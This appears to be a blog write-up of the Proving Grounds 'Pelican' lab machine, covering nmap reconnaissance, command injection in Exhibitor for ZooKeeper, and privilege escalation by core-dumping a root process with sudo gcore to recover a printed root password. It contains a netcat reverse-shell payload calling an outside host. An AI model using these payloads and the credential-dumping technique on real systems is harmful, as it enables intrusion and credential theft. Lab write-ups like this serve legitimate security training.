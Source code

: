 ```yaml
---
layout: post
title: PG Practice - Pelican Writeup
date: 2024-06-01 02:00:00 +0100
published: true
categories: [PG Practice]
tags: [PG Practice,OSCP]
---
```


On port 8081 is running `Exhibitor for ZooKeeper v1.0` which is vulnerable to arbitrary code execution via `java.env script` field under Config tab. Malicious command needs to be placed inside `$()`. I was able to get initial foothold on the system by using reverse shell one liner as payload. Enumerating system as user `charles` I found out that `charles` can run `/usr/bin/gcore` with `sudo`. This binary can be used to generate core dump of process by providing process ID. Searching for processes I ran `pspy64s` and found interesting process `/usr/bin/password-store`, which is running as root. I generated core dump for `/usr/bin/password-store` process using `/usr/bin/gcore`. Inspecting output I found root credentials and I was able to log in as root. 

___
## Reconnaissance

### Nmap

```
nmap -sV -sC -oN ./nmap.txt 192.168.246.98
```

```
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a8e16068bef58e707054b427ee9a7e7f (RSA)
|   256 bb999a453f350bb349e6cf1149878d94 (ECDSA)
|_  256 f2ebfc45d7e9807766a39353de00579c (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
631/tcp  open  ipp         CUPS 2.2
|_http-title: Forbidden - CUPS v2.2.10
| http-methods: 
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/2.2 IPP/2.1
2222/tcp open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a8e16068bef58e707054b427ee9a7e7f (RSA)
|   256 bb999a453f350bb349e6cf1149878d94 (ECDSA)
|_  256 f2ebfc45d7e9807766a39353de00579c (ED25519)
8080/tcp open  http        Jetty 1.0
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(1.0)
8081/tcp open  http        nginx 1.14.2
|_http-title: Did not follow redirect to http://192.168.246.98:8080/exhibitor/v1/ui/index.html
|_http-server-header: nginx/1.14.2
Service Info: Host: PELICAN; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## Enumeration

### Service Enumeration

#### Port 445

```
smbclient -N -L //192.168.246.98
```

![445](/assets/img/pelican/445.png)

#### Port 631

```
CUPS v2.2.10
```

#### Port 8080

```
Jetty 1.0
```

#### Port 8081

```
nginx 1.14.2
```

![[8081.png]]

```
Exhibitor for ZooKeeper v1.0
```

___
## Initial Foothold

### Exhibitor Web UI - RCE

Source: https://www.exploit-db.com/exploits/48654

`java.env script` field can be modified and the new configuration pushed to `ZooKeeper`. We can execute arbitrary code by placing it inside `$()`. For payload I used simple reverse shell one liner. 

Payload:
```
$(/bin/nc -e /bin/sh 192.168.45.162 4444 &)
```

![[PG Practice/Intermediate/Pelican/Screenshots/exploit.png]]

After committing changes we receive reverse shell on port 4444.

![[PG Practice/Intermediate/Pelican/Screenshots/reverseSHell.png]]

### Local.txt

![[PG Practice/Intermediate/Pelican/Screenshots/localFlag.png]]

_____
## Privilege Escalation

### System Enumeration

```
sudo -l
```

![[PG Practice/Intermediate/Pelican/Screenshots/sudoL.png]]

Output showed that we can run `/usr/bin/gcore` with `sudo`. Searching this binary on `gtfobins` (https://gtfobins.github.io/gtfobins/gcore/) revealed that it is possible to uses this binary to generate core dump of process by providing process ID. 
#### Pspy64s

Running `pspy64s` revealed interesting process `/usr/bin/password-store`, which is running with root privileges. 

![[PG Practice/Intermediate/Pelican/Screenshots/pspy64s.png]]

### Core dump of /usr/bin/password-store process

```
sudo /usr/bin/gcore -a -o output.txt 494
```

![[escal.png]]

Inspecting output we can find root credentials.

```
cat output.txt
```

![[PG Practice/Intermediate/Pelican/Screenshots/password.png]]

### Root Access

```
root : ClogKingpinInning731
```

![[PG Practice/Intermediate/Pelican/Screenshots/rootLogin.png]]

___
## Post Exploitation

![[PG Practice/Intermediate/Pelican/Screenshots/proofFlag.png]]
